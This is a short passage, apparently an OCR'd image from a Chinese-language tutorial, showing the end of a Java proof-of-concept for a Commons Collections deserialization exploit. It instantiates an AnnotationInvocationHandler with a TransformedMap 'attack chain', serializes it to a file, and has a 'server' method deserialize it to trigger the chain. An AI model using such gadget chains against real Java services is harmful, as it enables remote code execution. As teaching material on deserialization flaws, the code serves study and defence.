 ```java
            constructor.setAccessible(true);
            // 创建含有攻击链的AnnotationInvocationHandler类实例
            Object instance = constructor.newInstance(Target.class, transformedMap);
            // 创建并实例化文件输出流
            FileOutputStream fileOutputStream = new FileOutputStream("1.txt");
            // 创建并实例化对象输出流
            ObjectOutputStream out = new ObjectOutputStream(fileOutputStream);
            out.writeObject(instance);

        }catch (Exception e){
            e.printStackTrace();
        }

    }

    /*
    * 服务端
    *  */
    public void unserialize() throws Exception{
        // 创建并实例化文件输入流
        FileInputStream fileInputStream = new FileInputStream("1.txt");
        // 创建并实例化对象输入流
        ObjectInputStream in = new ObjectInputStream(fileInputStream);
        Map map = (Map) in.readObject();
    }
}	
```

![image-20220914115903758](images/image-20220914115903758.png)
